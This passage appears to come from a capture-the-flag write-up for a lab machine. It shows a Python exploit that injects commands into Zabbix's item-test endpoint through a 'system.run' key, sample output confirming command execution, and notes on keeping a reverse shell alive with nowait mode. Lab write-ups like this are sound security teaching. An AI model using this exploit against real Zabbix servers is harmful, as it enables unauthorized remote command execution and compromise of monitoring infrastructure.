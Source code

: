 ```py

def exploit(payload):
    data = {"key": f"system.run[{payload}]", "delay": "", "value_type": 3, "item_type": 0, "itemid": 0,
            "interfaceid": 0, "get_value": 1, "interface[address]": "127.0.0.1", "interface[port]": 10050,
            "proxy_hostid": 0, "show_final_result": 1, "test_type": 0, "hostid": t.hostid[0][0], "valuemapid": 0, "value": ""}
    rce = s.post(f'{url}/zabbix.php?sid={t.sid[0]}&action=popup.itemtest.send', data=data)
    return rce.text


payload = sys.argv[1]
output = json.loads((exploit(payload)))
print('[+] Payload output')


if "value" in output:
    print(output["value"])
else:
    print(output)


s.close()
```

Exploit in action
```bash
❯ python exploit.py 'id'
/** Author: x00tex(poorduck) **/
[+] All Hosts
shibboleth.htb:10084
[+] Payload output
uid=110(zabbix) gid=118(zabbix) groups=118(zabbix)
```

There is a problem when i try to get reverse shell on the box, the shell dies immediately. If we read through the zabbix agent [docs](https://www.zabbix.com/documentation/2.4/manual/config/items/itemtypes/zabbix_agent) in "system.run" they specify 2 modes and default mode is "`wait`" which wait for the command output and display the output and "`nowait`" just execute and return 1 if command executes and 0 if not and move on.

![](screenshots/rev-shell.png)
